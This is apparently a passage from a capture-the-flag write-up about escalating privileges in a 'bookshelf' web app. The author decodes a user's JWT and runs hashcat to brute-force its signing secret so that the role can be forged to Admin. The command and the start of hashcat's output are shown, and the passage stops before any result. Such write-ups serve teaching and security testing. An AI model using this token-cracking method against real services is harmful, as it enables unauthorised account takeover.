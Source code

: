 This leaves us with **B**, creating a user and chaning his role to `Admin`. By default two users get created:

- `user` with the `Free` role, and a password of `user`
- `admin` with the `Admin` role with an unkown password

By logging in with the `user` user, the server returns a JWT Token:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTczNDA4MDM1NSwiaWF0IjoxNzMzNDc1NTU1LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.obL5I4_i_dFt4M7xVnuJKLiDPDqgBa4Y7JJQKGus-G8
```

The token contains this payload:

```json
{
  "role": "Free",
  "iss": "bookshelf",
  "exp": 1734080355,
  "iat": 1733475555,
  "userId": 1,
  "email": "user"
}
```

The server uses the JWT token to validate the **integrity** and **authenticity** of the requests made by users. This means if I just go and modify the `role` key from `Free` to `Admin` the server will reject the request because the server will detected that the JWT token was tampered with. The JWT token gets **signed** with a **secret key**. When the server receives the modified token, it uses the secret key to find out if it was tampered with.

We need to find out the secret key that is used to sign the tokens.


Two ways to find out the JWT secret key: bruteforcing it and looking for it in the source code. Let's start with bruteforcing it.

Bruteforcing the JWT Token using `hashcat`

```console
hashcat -a 0 -m 16500 eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTczNDA4MDM1NSwiaWF0IjoxNzMzNDc1NTU1LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.obL5I4_i_dFt4M7xVnuJKLiDPDqgBa4Y7JJQKGus-G8 wordlist --potfile-disable 
hashcat (v6.2.5) starting

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-6300HQ CPU @ 2.30GHz, 1438/2940 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB
```